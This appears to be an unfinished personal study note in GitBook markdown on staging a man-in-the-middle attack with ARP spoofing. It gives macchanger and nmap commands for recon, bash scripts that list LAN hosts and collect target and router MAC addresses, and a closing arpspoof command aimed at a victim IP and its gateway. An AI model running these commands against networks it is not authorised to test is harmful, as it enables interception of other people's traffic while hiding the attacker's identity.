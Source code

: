 # TODO - Man in the Middle with ARP spoofing

Welcome again :D&#x20;

Im actually pleased of myself because Im explaining to me and Im actually understanding something LOL

## Recap

### change the MAC

```
sudo macchanger -r eth0 
```

### reverse DNS request to get all the hostname

and find the target

```bash
nmap -sL 192.168.1.0/24
# -sL     reverse DNS resolution (send no packet to the host, 
                only to the DNS server probably)
```

### scan all your LAN

```bash
#! /bin/bash

echo "change your MAC =D"

ip=$(hostname -I | awk '{print $1}')
ip="${ip##*( )}"
ip_selected=()

if [[ "$ip" == *"$192"* ]]; then
    ip_selected=192.168.0.0/16
elif [[ "$ip" == *"$172"* ]]; then
    ip_selected=172.16.0.0/12
elif [[ "$ip" == *"$10"* ]]; then
    ip_selected=10.0.0.0/8
fi

# echo "$ip_selected"
nmap -sL "$ip_selected" 2>&1 | tee | grep --line-buffered -e \( | awk -Ffor '{print $2}'
```

<details>

<summary>scan all your LAN</summary>



</details>

### check if host is alive

{% embed url="https://security.stackexchange.com/questions/36198/how-to-find-live-hosts-on-my-network" %}

```bash
nmap -sn 192.168.1.68

# -sn     disable port scan
# -sn is the same as -sP (Ping scan)
# this command is not 100% reliable, it is reliable enough though
```

{% embed url="https://unix.stackexchange.com/questions/87935/nmap-sn-scan-or-no-scan" %}

## Get MAC addrs

A script could be useful.

```
./basic_mitm 192.168.1.68 192.168.1.1
```

```
-n     no DNS resolution 
-sP    skip port scan
```

```bash
#!/bin/bash

echo "$1"
echo "$2"

mac1=$(sudo nmap -nsP "$1" | grep MAC | awk -F\  ' { print $3 } ' )
mac2=$(sudo nmap -nsP "$2" | grep MAC | awk -F\  ' { print $3 } ' )

echo "$mac1"
echo "$mac2"
```

## Packet redirect

Now a method is needed to be able to not block the connection of the target host with the router.

<details>

<summary>How can I forward using MAC addrs, or IP?</summary>

* _bridge_ command from iproute2 package
* iptables mac command
* ebtables

</details>

linux mac forwarding

## [iptables](todo-iptables.md)

### MAC forwarding

As if we were switches we could use MAC addresses to forward data at the data link layer (layer 2) of the OSI model.&#x20;

{% embed url="https://serverfault.com/questions/293786/is-there-a-tool-like-route-in-linux-to-configure-the-forwarding-entry-dst-mac" %}

{% embed url="https://en.wikipedia.org/wiki/MAC-Forced_Forwarding" %}

{% embed url="https://linux.die.net/man/8/iptables" %}

{% hint style="info" %}
iptables command has a "mac" section that could be useful
{% endhint %}

## ARP spoofing

```
sudo arpspoof -i eth0 -t 192.168.1.68 -r 192.168.1.1 
```

## Sources

{% embed url="https://www.cyberciti.biz/tips/iptables-mac-address-filtering.html" %}

{% embed url="https://explainshell.com/explain/1/nmap" %}
